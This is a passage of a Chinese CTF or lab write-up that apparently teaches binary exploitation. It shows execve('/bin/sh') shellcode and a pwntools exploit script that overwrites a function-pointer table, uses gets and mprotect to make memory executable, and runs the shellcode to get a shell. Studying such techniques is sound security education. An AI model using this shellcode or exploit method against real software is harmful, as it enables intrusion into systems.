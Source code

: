 
我们通过 call_func 触发负数溢出调用到前面写进去的 flag1 的地址实现利用，其中 `-31 = -(0xf8 // 8)`。

## 该怎么 getshell 呢

第二问要求 getshell，即劫持控制流后实现任意代码执行的目标。根据实验教学顺序，我们这里先学习了 shellcode 的使用，讲义里也给出了 getshell 的 nasm 格式汇编代码：

```z80
mov rax, {bytes_binsh};
push rax;
mov rdi, rsp;
xor rsi, rsi;
xor rdx, rdx;
push SYS_execve;
pop rax;
syscall;
```

在 x86_64 架构下，进行函数调用需要先按照 rdi, rsi, rdx, rcx, r8, r9 的顺序将参数传入对应寄存器中，如这里把指向 `"/bin/sh\x00"` 字符串的指针放入 rdi，再将后面存放参数列表和函数列表的 rsi 和 rdx 置零。接下来需要把系统调用号传到 rax 中再执行 syscall。这样就能实现 getshell。

类似的，调用函数也需要先往寄存器中传参（如下面的调用 mprotect 函数）：正常安全的情况下，程序中是没有既能写又能执行的内存区域的，本题中我们已经能够利用溢出来调用 gets 等函数来往内存空间中读取 shellcode，但是这时候直接把控制流劫持上去（调用目标地址，使 rip 指向 shellcode 开始处的地址）会报段错误，这是因为程序运行到了没有 x（执行）权限的内存。关于内存的属性可以在 gdb+pwndbg 中用命令 vmmap 进行查看。

mprotect 是 libc 函数，可以设置目标地址的权限：

```c
#include <sys/mman.h>
int mprotect(void *addr, size_t len, int prot);
```

exp 关键部分如下，其中先利用溢出修改了函数指针列表，使我们能够自由控制 mprotect 函数的参数，接下来先用 gets 传入 shellcode，再用 mprotect 设置内存权限为 7（即 rwx，对本题来说 5 也可以，这里真正传入的是第三个参数的长度，因此是 b"a"\*7），最后调用 shellcode 成功 getshell：

```python
# ===========exp starts===========
buf_addr = 0x4c5000 + 8
#  gets_addr = elf.symbols['gets']
gets_addr = 0x418de0
#  mprotect_addr = elf.symbols['mprotect']
mprotect_addr = 0x452430
bytes_binsh = u64_ex(b"/bin/sh\x00")
call_func(b"0\x00".ljust(0xf8, b"\x00") + p64(buf_addr) + p64(gets_addr) + p64(mprotect_addr))
# -1 => shellcode
#  0 => gets
#  1 => mprotect

shellcode = b"a"*8
shellcode += asm(f"""
    // execve(b"/bin/sh\x00", 0, 0);
    mov rax, {bytes_binsh};
    push rax;
    mov rdi, rsp;
    xor rsi, rsi;
    xor rdx, rdx;
    push SYS_execve;
    pop rax;
    syscall;
""")
sl(shellcode)
call_func(i2b(1), 0x1000, b"a"*7)
call_func(i2b(-1))
# ===========exp ends=============
```
